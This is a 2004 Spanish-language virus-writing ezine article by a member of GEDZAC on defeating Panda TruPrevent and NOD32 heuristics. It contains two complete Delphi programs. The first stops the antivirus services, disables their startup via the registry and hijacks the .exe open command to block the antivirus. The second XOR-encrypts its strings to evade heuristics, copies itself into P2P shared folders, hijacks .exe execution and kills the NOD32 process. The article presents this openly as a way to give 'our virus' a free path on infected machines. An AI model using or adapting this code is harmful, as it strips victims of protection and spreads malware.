

***************************************************************************************************
*************************************Analizando
y Eliminando*******************************************
**************************************Tecnologías
Antivirales
*******************************************
*************************Basadas en la emulación de
código y la heurística avanzada*****************************
**************************************Byt3Cr0w/GEDZAC*********************************************
***************************************************************************************************
Actualmente cada día se avanza mas en aspectos de seguridad informática, ya sea
creando módulos heurísticas avanzados como
por ejemplo el ya bastantes veces aclamado y premiado modulo de heurística de
NOD32, o tratando de detectar nuevas amenazas
ejecutando los archivos en una maquina virtual donde se emula al sistema
operativo del usuario y se buscan en el cambios
realizados por el fichero.
Existen en este momento varios programas los cuales detectan nuevas amenazas
basándose en el sistema anteriormente comentado,
uno de ellos es Panda TruPrevent (actualmente no oficial (09/12/2004)).
Después de enterarme de que existía esta tecnología me negaba a crear su
publicidad la cual se centraba en el hecho
de detectar nuevas amenazas ya sean virus, worms, malwares o de otro tipo sin
utilizar bases de datos ni heurística
y el hecho de emular una maquina virtual donde se ejecutaría el archivo y se
analizarían sus acciones en un corto periodo
de tiempo, al escuchar esto lo primero que se me vino a la cabeza fue toda la
memoria que podría consumir analizando un
archivo.
Luego de escuchar en varias ocasiones que esta tecnología acabaría con los
futuros worms o virus, me propuse estudiarla
además de la supuesta gran heurística de NOD32.
**************************************************************************************************
*****************************************Analizando
y Eliminando***************************************
*******************************************Panda
TruPrevent******************************************
********************(MÉTODO POSIBLEMENTE NO
COMPATIBLE CON WINDOWS 9x)********************
***************************************************************************************************
Lo primero es saber si esta tecnología funciona y
es tan buena como lo indica su publicidad, para esto he testeado con 8 tipos
de amenazas estas están conformadas por 8 diferentes worms/virus:
Como podemos ver los 8 worm/virus fueron detectados bloqueados o desinfectados,
4 de estos 8 eran proyectos virales nuevos
y no fueron detectados por ningún Antivirus (Escaneados con: NOD32, KAV,
DrWeb, NVC, F-PROT), con esta prueba ya
sabemos que TruPrevent funciona.
TruPrevent usa un sistema de protección (avanzado en comparación con algunos
Antivirus) el cual previene que se pueda
modificar alguna llave/clave del registro que pueda afectar al funcionamiento de
TruPrevent, igualmente evita que
se puedan cerrar sus procesos a través de cualquier programa (Esto incluye al
taskmgr de Windows).
El sistema de protección para evitar que podamos modificar/eliminar realiza
varias acciones sobre todas las llaves
del registro que TruPrevent desea proteger.
Estas acciones las realiza de forma repetitiva logrando de esta manera que
modificar o borrar cualquier llave o valor del
registro relacionado con TruPrevent sea difícil (o imposible) ya que estas están
siendo usadas por el programa protector.
De manera similar TruPrevent para evitar que sus procesos sean terminados,
realiza acciones repetitivamente sobre archivos
que en general no existen.

TruPrevent nos ha quitado por ahora la posibilidad de jugar con sus llaves y
valores en el registro al igual que
la posibilidad de cerrar sus procesos, en este momento ya deberíamos de estar
pensando usar la fuerza bruta
- Borrar directorio de TruPrevent
- Borrar los archivos Signatures (Base de datos virales)
- Etc...
Aunque esto pueda sonar rápido, sencillo y sin complicaciones pues
lamentablemente no podrás hacerlo ya que el
directorio donde se encuentra TruPrevent instalado (y los archivos Signatures)
esta protegido por el mismo TruPrevent.
En conclusión mientras se este ejecutando TruPrevent es bastante dificultoso (o
imposible) afectar el funcionamiento de este.
Así que la solución seria simplemente evitar que se ejecutara el TruPrevent al
inicio de Windows y de esta manera tendríamos
el camino libre para hacer lo que quisiéramos.
Para ejecutarse en cada inicio TruPrevent al instalarse crea las siguientes
llaves en el registro:
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\APVXDWIN
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\LUPGCONF
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\PavProt
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\PavFnSvr
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\Panda
Preventium Service
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\PavFires
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\PavKRE
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\PavKRE9x
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\PavProt9
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\Panda
Preventium+ Service
Naturalmente para poder evitar que se ejecuta al inicio tendríamos que borrar o
modificar de alguna manera esas
llaves pero esto no es posible.
El funcionamiento de TruPrevent esta constituido y basado en varios servicios
- Panda Function Service
- Panda IManager Service
- Panda Pavkre
- Panda PavProt
- Panda Preventium+ Service
- Panda Process Protection Service
Para nuestra sorpresa podemos usar el comando: net stop, para poder detener los
servicios del TruPrevent
al detener estos servicios prácticamente TruPrevent queda desnudo e indefenso
basta con detener alguno de los
siguientes servicios:
- Panda Function Service
- Panda Pavkre
- Panda PavProt
- Panda Preventium+ Service
Luego de detener alguno de estos servicios debemos modificar el registro para
evitar que en cada inicio se ejecuten los
servicios y al no ejecutarse los servicios Panda TruPrevent no se ejecutara y
nuestro virus tendra el camino libre
en la maquina del infectado.
Llaves a modificar:
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\PAVfnsvr\START = 4
(Hexadecimal =
DWORD)
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Pavkre\START = 4
(Hexadecimal =
DWORD)
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\PavProc\START = 4
(Hexadecimal =
DWORD)
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\PavProt\START = 4
(Hexadecimal =
DWORD)
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\ \START = 4
(Hexadecimal =
DWORD)
Al hacer esto en el próximo inicio de Windows no se ejecutaran los servicios del
TruPrevent pero todavía queda
existiendo la llave:
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\APVXDWIN
La cual no podemos modificar ni eliminar (con o sin los servicios ejecutándose),
esta llave nos echaría a perder nuestro
trabajo ya que ella ejecuta al TruPrevent en si que seria el archivo
"APVXDWIN.EXE" ubicado en la carpeta de instalación.
Para evitar la ejecución debemos de modificar la llave:
HKEY_CLASSES_ROOT\exefile\shell\open\command
Para de esta manera hacer que nuestro virus intercepte a los archivos
ejecutables (.EXE) antes de ejecutarse,
nuestro virus examinara el nombre del archivo que necesita ejecutarse si el
archivo tiene como nombre: "APVXDWIN.EXE"
el virus no lo ejecutara y de esta manera evitaremos completamente la presencia
del TruPrevent en la memoria (debemos de
ejecutar los demás archivos ejecutables, este tema esta mejor explicado en el
artículos "Interceptar
Ejecutables" escrito por MachineDramon/GEDZAC)
Codigo de ejemplo (Delphi):
[
program Kill_TruPrevent;
{ TruPrevent Killer Example for the Mitosis #3
Ezine by: Byt3Cr0w/GEDZAC }
uses
windows;
Const
NS1 = 'cmd.exe /c net stop "Panda Function Service"';
NS2 = 'cmd.exe /c net stop "Panda Pavkre"';
NS3 = 'cmd.exe /c net stop "Panda PavProt"';
RG = 'SYSTEM\CurrentControlSet\Services\';
RG1 = RG+'PAVfnsvr';
RG2 = RG+'Pavkre';
RG3 = RG+'PavProc';
RG4 = RG+'PavProt';
RG5 = RG+'PavPrSrv';
Procedure Rwrite(O:String);
var
Reg:Hkey;
Hexa:Cardinal;
Begin
Hexa := $4;
RegOpenKeyEx(HKEY_LOCAL_MACHINE,Pchar(O),1,KEY_ALL_ACCESS,Reg);
RegSetValueEx(Reg,Pchar('Start'),0,REG_DWORD,@Hexa,SizeOf(Cardinal));
RegCloseKey(Reg);
End;
Procedure NETSTOP;
begin
WinExec(Pchar(NS1),SW_HIDE);
sleep(2000); //Esperamos a que se detenga el
servicio...
WinExec(Pchar(NS2),SW_HIDE);
sleep(2000); //Esperamos a que se detenga el
servicio...
WinExec(Pchar(NS3),SW_HIDE);
sleep(2000); //Esperamos a que se detenga el
servicio...
end;
Procedure ModReg;
begin
Rwrite(RG1);
Rwrite(RG2);
Rwrite(RG3);
Rwrite(RG4);
Rwrite(RG5);
end;
Procedure ExeReg;
var
Reg:Hkey;
Pam:string;
begin
Pam := paramstr(0)+' "%1"';
RegOpenKeyEx(HKEY_CLASSES_ROOT,Pchar('exefile\shell\open\command'),1,KEY_ALL_ACCESS,Reg);
RegSetValueEx(Reg,Pchar(''),0,REG_SZ,Pchar(Pam),Length(Pam));
RegCloseKey(Reg);
end;
function FileName(m:string):string;
var
i:integer;
a,b:string;
begin
for i := Length(m) downto 0 do if m[i] = '\' then break else a := a + m[i];
i:=0;
for i := Length(a) downto 0 do b:=b+a[i];
Result := b;
end;
begin
NetStop;
ModReg;
ExeReg;
if paramstr(1) ='' then exitprocess(0);
if FileName(paramstr(1)) ='APVXDWIN.EXE' then exitprocess(0);
WinExec(Pchar(paramstr(1)),SW_SHOWNORMAL);
end.
]
***************************************************************************************************
*****************************************Evadiendo
& Eliminando***************************************
****************************************Modulo
Heuristico NOD32**************************************
***************************************************************************************************
Este modulo Heuristico es el que ha ganado mas años
seguidos virus "in the wild" que son test objetivos no remunerados por ninguna
compañia
personalmente he probado numerosos productos de este tipo:
- Kaspersky AntiVirus
- Symantec Norton Antivirus
- Panda Titanium
- Sophos AntiVirus
- F-Prot
- Norman Virus Control
- Sybari
- BitDefender
- ClamWin
Ninguno de los mencionados posee una heurística tan
compleja y precisa como la de NOD (producto de la compañía ESET)
la mayoría de los virus/worms luego de ser compilados son detectados
heuristicamente por NOD, ya sean virus infectores o worms.
La detección heurística generalmente se basa en las Strings que contiene
el virus, el modulo heuristico lee y analiza las Strings
encontradas y si estas son sospechosas entonces NOD detectara al archivo como:
"Probably unknown NewHeur_PE Virus" = "Probable virus nuevo"
Generalmente las strings mas sospechosas son las que mencionan
directorios de populares programas P2P.
Para evitar esto bastaría con solo aplicar un simple
método que seria encriptar las strings de nuestro virus, al aplicar esto a
nuestro
virus el modulo heuristico no tendrá efecto (en la mayoría de los casos)
ya que las strings no tendrían sentido alguno.
Este método no es difícil de aplicar a nuestros virus , veamos la idea
principal de un programa encriptador de Strings:
Diagrama de flujo (flowchart) con Símbolos estándar normalizados por ANSI.
Básicamente tendría que funcionar de una manera
muy similar pero nuestro virus solo debería de cumplir la función de
desencriptar las Strings
y luego usarlas normalmente.
Ejemplo practico (Delphi):
{ Ejemplo para la Mitosis #3 por Byt3Cr0w/GEDZAC}
{ Evasion y eliminacion del modulo heuristico NOD32 }
program Kill_NOD32;
uses
windows,TLHelp32,SysUtils;
const
PROCESS_TERMINATE=$0001;
var F:Array[1..8] of string;
M:Array[1..2] of string;
R:Array[1..3] of string;
A:string;
//Inicio de la rutina para terminar programas que
se encuentren en ejecucion...
procedure TerminaProceso(NombreDelArchivo:string);
var
ElLoop:bool;
MiFoto:thandle;
EntradaDelProceso:tprocessentry32;
begin
MiFoto:=createtoolhelp32snapshot(th32cs_snapprocess,0);
EntradaDelProceso.dwSize:=Sizeof(EntradaDelProceso);
ElLoop:=Process32First(MiFoto,EntradaDelProceso);
while integer(ElLoop)<>0 do begin
if ((upperCase(extractfilename(EntradaDelProceso.szexefile))=UpperCase(NombreDelArchivo))
or (UpperCase(EntradaDelProceso.szExeFile)=UpperCase(NombreDelArchivo))) then
terminateprocess(OpenProcess(process_terminate,bool(0),EntradaDelProceso.th32ProcessID),0);
ElLoop:= process32Next(MiFoto,EntradaDelProceso);
end;
CloseHandle(MiFoto);
end;
//Fin de la rutina...
//Inicio de la rutina para copiar nuestro programa
a diferentes carpetas P2P...
procedure CopyFiles;
var contador:integer;
begin
for contador := 1 to 8 do CopyFile(Pchar(paramstr(0)),Pchar(F[contador]),true);
end;
//Fin de la Rutina...
//Inicio de la rutina para mostrar mensaje...
procedure ShowMessage;
begin
MessageBox(0,Pchar(M[1]),Pchar (M[2]),0);
end;
//Fin de la rutina...
//Inicio de la rutina para desencriptar las strings...
Function decrypt(cadena:string):string;
var desencriptado:string;
count1,count2,llave:integer;
begin
llave := 6; //La llave de encriptacion en este caso
es = 6
count1 := Length(cadena);
for count2 := 1 to count1 do desencriptado := desencriptado +
chr(ord(cadena[count2]) xor llave);
Result := desencriptado;
end;
//Fin de la rutina...
//Inicio de la rutina de desencriptacion general...
procedure DecryptStrings;
var contador:integer;
begin
for contador := 1 to 8 do F[contador] := decrypt(F[contador]);
for contador := 1 to 2 do M[contador] := decrypt(M[contador]);
for contador := 1 to 3 do R[contador] := decrypt(R[contador]);
A := decrypt(A);
end;
//Fin de la rutina...
//Inicio de la rutina para modificar el registro...
Procedure ExeReg;
var Reg:Hkey;
Pam:string;
begin
Pam := paramstr(0)+R[1];
RegOpenKeyEx(HKEY_CLASSES_ROOT,Pchar(R[2]),1,KEY_ALL_ACCESS,Reg);
RegSetValueEx(Reg,Pchar(''),0,REG_SZ,Pchar(Pam),Length(Pam));
RegCloseKey(Reg);
end;
//Fin de la rutina...
//Inicio de la rutina para extraer el nombre del
archivo a ejecutar...
function FileName(m:string):string;
var i:integer;
a,b:string;
begin
for i := Length(m) downto 0 do if m[i] = R[3] then break else a := a + m[i];
i:=0;
for i := Length(a) downto 0 do b:=b+a[i];
Result := b;
end;
//Fin de la rutina...
begin
/////////////////////////////////////////////////////////////////////////////////////////////////////
//------------------------------------------------------------------
//|
Strings Desencriptadas
//|-----------------------------------------------------------------
//|- C:\Archivos de programa\WinMX\Shared\Ejemplo.exe
//|- C:\Archivos de programa\Kazaa\My Shared Folder\Ejemplo.exe
//|- C:\Archivos de programa\Grokster\My Grokster\Ejemplo.exe
//|- C:\Archivos de programa\ICQ\Shared Folder\Ejemplo.exe
//|- C:\Archivos de programa\Bearshare\Shared\Ejemplo.exe
//|- C:\Archivos de programa\eMule\Incoming\Ejemplo.exe
//|- C:\Archivos de programa\Morpheus\My Shared Folder\Ejemplo.exe
//|- C:\Archivos de programa\LimeWare\Shared\Ejemplo.exe
//|- Por Byt3Cr0w/GEDZAC 2004
//|- [ Ejemplo para la Mitosis#3 ]
//|- "%1"
//|- exefile\shell\open\command
//|- \ |//
//|- nod32kui.exe
//|----------------------------------------------------------------|
////////////////////////////////////////////////////////////////////////////////////////////////////
// Strings encriptadas...
F[1] := 'E<ZGtenopiu&bc&vtiatgkgZQohK^ZUngtcbZClckvji(c~c';
F[2] := 'E<ZGtenopiu&bc&vtiatgkgZMg|ggZK&Ungtcb&@ijbctZClckvji(c~c';
F[3] := 'E<ZGtenopiu&bc&vtiatgkgZAtimurctZK&AtimurctZClckvji(c~c';
F[4] := 'E<ZGtenopiu&bc&vtiatgkgZOEWZUngtcb&@ijbctZClckvji(c~c';
F[5] := 'E<ZGtenopiu&bc&vtiatgkgZDcgtungtcZUngtcbZClckvji(c~c';
F[6] := 'E<ZGtenopiu&bc&vtiatgkgZcKsjcZOheikohaZClckvji(c~c';
F[7] := 'E<ZGtenopiu&bc&vtiatgkgZKitvncsuZK&Ungtcb&@ijbctZClckvji(c~c';
F[8] := 'E<ZGtenopiu&bc&vtiatgkgZJokcQgtcZUngtcbZClckvji(c~c';
M[1] := 'Vit&Dr5Et6q)ACB\GE&4662';
M[2] := ']&Clckvji&vgtg&jg&Koriuou%5&[';
R[1] := '&$#7$';
R[2] := 'c~c`ojcZuncjjZivchZeikkghb';
R[3] := 'Z';
A:= 'hib54mso(c~c';
//-----------------------------
DecryptStrings;
//Desencriptamos las strings...
CopyFiles;
//Copiamos archivos...
ExeReg;
//Modificamos el registro...
ShowMessage;
//Mostramos mensaje...
TerminaProceso(A);
//Eliminamos de la memoria a NOD32
if paramstr(1) ='' then exitprocess(0); //Si no
tenemos parámetros terminamos la ejecución...
if FileName(paramstr(1)) = A then exitprocess(0);
//Si se solicita ejecutar a NOD32 terminamos la ejecución...
WinExec(Pchar(paramstr(1)),SW_SHOWNORMAL);
//Ejecutamos archivo...
end.
En este caso nuestro programa desencripta las Strings,
genera copias de si mismo en carpetas P2P, modifica el registro, muestra un
mensaje,termina el proceso de NOD32.
Nuestro programa interceptara cada vez que un archivo con extensión .EXE
requiera ser ejecutado, extraerá el nombre del archivo y si este
es el NOD32 entonces no lo ejecutara. (De lo contrario ejecutara el archivo).
Adios - Tschüs - Ciao
Greedz / Thnxs / Agradecimientos
Todos los miembros de GEDZAC (actuales)
Falckon/DCA
- Waz up bro!
BlackRose
- Hey Sizzz!
=)
Sickbyte & Backus / Primatelost
Byt3Cr0w/GEDZAC - 9/12/2004